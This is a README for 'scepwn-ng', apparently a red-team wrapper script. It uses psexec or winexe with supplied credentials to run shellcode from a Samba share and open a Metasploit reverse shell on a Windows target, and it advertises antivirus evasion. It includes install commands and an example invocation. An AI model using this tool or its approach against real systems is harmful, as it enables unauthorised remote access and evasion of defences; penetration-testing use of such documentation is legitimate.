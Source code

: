 scepwn-ng
@thejosko <jskorich@secureworks.com>

INTRODUCTION
============
scepwn-ng is a wrapper script for launching winexe/psexec at a target, which then runs shellcode exec from a samba share with a msf generated reverse shell. As the executable never touches disk, it is highly effective at evading a/v. 


INSTALL
=======
Basic Setup for a kali box (skyfire):
		$ cd /opt
		$ git clone https://github.com/CoreSecurity/impacket.git
		$ cd impacket; python setup.py install
		$ cd /opt; git clone https://github.com/inquisb/shellcodeexec.git

If not using Kali, you will also need to install metasploit and winexe, as well as possibly modify the tool locations.

USAGE
=====

		./scepwn-ng.rb [optional]

**Example:**

		./scepwn-ng.rb -u 'Administrator%Password1' -t 10.1.1.1 -s psexec -p 4444

Note - All options are just that.. optional. If you leave anything out it will ask you for it.


**Options:**

		-t, --target TARGET              
																		Target IP address
		-u, --user CREDENTIALS           
																		Credentials in DOMAIN/USERNAME%PASSWORD format
		-p, --port PORT                  
																		Reverse shell port number (default: 443)
		-s, --service SERVICE            
																		winexe or psexec (default: winexe)
		-h, --help                       
																		Display this screen
             
